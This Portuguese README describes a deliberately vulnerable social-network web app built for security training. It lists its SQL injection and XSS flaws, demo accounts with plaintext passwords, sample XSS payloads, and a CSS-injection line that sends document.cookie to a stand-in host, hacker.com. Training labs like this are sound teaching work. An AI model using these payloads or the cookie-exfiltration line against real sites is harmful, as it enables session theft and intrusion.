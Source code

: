 # Damn Vulnerable Social Network

Uma aplicação vulnerável indicada para testes e entendimento de conceitos de segurança em Aplicações WEB

Requisitos:
- Java 17
- Node 19
- Docker
- Docker Compose
- Postgres instalado. (Caso não tenha o Docker e Docker Compose)

## Rodar a aplicação

### 1. Subir o banco de dados utilizando o Docker Compose. Rodar o comando abaixo na pasta raíz do projeto.
```
docker-compose up
```

### 2. Criação do banco de dados.

- Executar o script de criação do banco de dados que se encontra em dvsn-api/script.sql informando a senha **Postgres123**:

```
$ psql -U postgres -h 172.45.45.10 -d postgres -a -f ./dvsn-api/script.sql
```
- **ou** executar o script:
```
$ ./create-db.sh
```

### 3. Entrar na pasta do front (dvsn-client) e dar build no projeto, para que os arquivos sejam colocados ná pasta estática da api.

NPM:
```
npm install
npm build
```
YARN:
```
yarn
yarn build
```

### 4. Abrir o IntelliJ e rodar a aplicação.
Main Class -> RootApplication.java

## Usuários disponíveis
|Email|Hash Senha|Senha|Admin|
|-|-|-|-|
|bob@mail.com|0acf4539a14b3aa27deeb4cbdf6e989f|michael|Sim|
|jimi@mail.com|061fba5bdfc076bb7362616668de87c8|lovely|Não|
|jim@mail.com|5f4dcc3b5aa765d61d8327deb882cf99|password|Não|
|amy@mail.com|d8578edf8458ce06fbc5bb76a58c5ca4|qwerty|Não|
|janis@mail.com|46f94c8de14fb36680850768ff1b7f2a|123qwe|Não|

## Comandos extras:
Gerar certificado para o servidor apache2.
```sh
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

## Assuntos abordados:

- OWASP TOP 10
- XSS
- CSRF
- Cookies (HttpOnly, Secure, SameSite)
- Alguns cuidados com LocalStorage e SessionStorage
- Como manter componentes/frameworks/libs seguras e atualizadas
- Cabeçalhos CSP e X-Frame-Options

## Vulnerabilidades
- SQL Injection
    - Login
    - Pesquisa de usuários
- XSS
    - Reflected
        - /hello?nome=Bob
    - DOM
        - Filtro na listagem de POSTS
    - Stored
        - Comentários dos posts

## Payloads:
- XSS
```html
<img src="a" onerror="alert('XSS')" />
```
https://github.com/payloadbox/xss-payload-list
https://developer.mozilla.org/pt-BR/docs/Web/JavaScript/Reference/Global_Objects/eval

```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("XSS");
  </script>
</svg>
```
- SQL Injection

https://github.com/payloadbox/sql-injection-payload-list
- CSS Injection
http://localhost:8080/hello?nome=Gabriel#red;margin-left:50px;background-image:url('http://localhost:8080/favico.ico')
- expression(document.write('<iframe src=" .= "http://hacker.com?cookie=' + document.cookie.escape() + " />'))
background-image: url(javascript:alert('XSS'))
https://www.mediawiki.org/wiki/Preventing_XSS_Attacks_through_CSS_Whitelisting

## TODO
- <s>Prevenção de XSS configurável.</s>
- <s>Prevenção de SQL Injection configurável.</s>
- <s>Adicionar XSS em SVG e CSS.</s>
- Validar tipos de autenticação e adicionar Token Opaco.


## Exemplos de vulnerabilidades:
- <a href="https://security.snyk.io/vuln/SNYK-JS-MATERIALIZECSS-2324800">XSS materialize-css</a>
## Referências
https://developer.mozilla.org/pt-BR/docs/Web/JavaScript/Reference/Global_Objects/eval